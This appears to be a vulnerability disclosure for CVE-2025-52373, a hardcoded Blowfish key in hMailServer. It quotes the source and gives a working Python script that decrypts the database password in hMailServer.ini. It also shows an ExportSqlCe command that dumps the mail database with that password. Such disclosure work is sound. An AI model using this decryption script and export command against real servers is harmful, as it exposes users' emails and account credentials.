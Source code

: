 # CVE-2025-52373

**Suggested description:** Use of hardcoded cryptographic key in `BlowFish.cpp` in hMailServer 5.8.6 and 5.6.9-beta allows attacker to decrypt passwords used in database connections from `hMailServer.ini` config file.

**VulnerabilityType Other:** CWE-321: Use of Hard-coded Cryptographic Key

**Vendor of Product:** hMailServer

**Affected Product Code Base:** hMailServer - 5.8.6, 5.6.9-beta

**Affected Component:** `hmailserver/source/Server/Common/Util/BlowFish.cpp`, `hMailServer.ini`

**Attack Type:** Local

**Impact Information Disclosure:** true

**Attack Vectors:** to exploit this, someone can simply adapt the existing functions in the source code into a tool to decrypt passwords that are used in connection strings to SQL servers

**Reference:**
- hMailServer Exploit: [https://github.com/mojibake-dev/hMailEnum](https://github.com/mojibake-dev/hMailEnum)
- Generic Exploit: [https://github.com/hmailserver/hmailserver](https://github.com/hmailserver/hmailserver)
- Blog Post: https://mojibake.dev/belskysgambit

**Discoverer:** Eli Samara

**Detailed Explanation:**

Hardcoded password is set
``` cs
#define NOT_SECRET_KYE "THIS_KEY_IS_NOT_SECRET"
```
> line 20 `hmailserver/source/Server/Common/Util/BlowFish.cpp`

and used 
```cs
   BlowFishEncryptor::BlowFishEncryptor ()
   {
 	   PArray = new DWORD [18] ;
 	   SBoxes = new DWORD [4][256] ;

      String sKey = NOT_SECRET_KYE;
      int iKeyLen = sKey.GetLength();
      BYTE *buf = new BYTE[iKeyLen + 1];
      memset(buf, 0, iKeyLen + 1);
      strncpy_s((char*) buf, iKeyLen+1, Unicode::ToANSI(sKey), iKeyLen);
      
      Initialize(buf, iKeyLen );
     
      delete [] buf;
   }
```
> line 29 `hmailserver/source/Server/Common/Util/BlowFish.cpp`

This is then used to encrypt the database `Password` under `[Database]` in `hMailServer.INI`. 

The flow looks something like this. 
```
hMailServerInnoExtension.iss
	DBSetupQuick.exe
		InitializeInternalDatabase()
			CreateInternalDatabase()
				PasswordGenerator::Generate()
					ini_file_settings_->SetPassword(sPassword);
						WriteIniSetting_();
					
```

When the installer is told to create an internal database it runs the helper program DBSetupQuick.exe which performs a flow demonstrated above.

The value field written looks like this. `Password=fb8f1b06f59cf34cf99164835d6ae736`

when fed to this script 
```python
from Crypto.Cipher import Blowfish

def blowfish_decrypt_le(cipher_hex: str, key: bytes = b"THIS_KEY_IS_NOT_SECRET") -> str:
    # Convert hex to bytes
    ct = bytes.fromhex(cipher_hex)
    bs = Blowfish.block_size  # 8 bytes per block
    
    # Initialize ECB cipher
    cipher = Blowfish.new(key, Blowfish.MODE_ECB)
    plaintext_bytes = b''

    # Process each 8-byte block
    for i in range(0, len(ct), bs):
        block = ct[i:i+bs]
        # Reverse each 4-byte word to match encryption pre-transform
        le_block = block[:4][::-1] + block[4:][::-1]
        # Decrypt
        dec_le = cipher.decrypt(le_block)
        # Reverse words back to big-endian
        dec_be = dec_le[:4][::-1] + dec_le[4:][::-1]
        plaintext_bytes += dec_be

    # Strip trailing zero-byte padding
    plaintext_bytes = plaintext_bytes.rstrip(b'\x00')
    # Decode to UTF-8
    return plaintext_bytes.decode('utf-8', errors='ignore')


# Example self-test
if __name__ == "__main__":
    test_ct = "fb8f1b06f59cf34cf99164835d6ae736"
    recovered = blowfish_decrypt_le(test_ct)
    print("Recovered plaintext:", recovered)
```

I retrieve the value `Recovered plaintext: 5C7662397665`

This then unlocks the database and allows me to export it as a more readable .sql script that will generate a sqlite db using this tool https://github.com/ErikEJ/SqlCeToolbox

```cmd
> .\ExportSqlCe.exe "Data Source=hMailServer.sdf;Password=5C7662397665;" hMailServer.sql sqlite
Initializing....
Generating the tables....
Generating the data....
Generating the indexes....
Sent script to output file(s) : hMailServer.sql in 633 ms
```

With this you now have access to emails and account information.
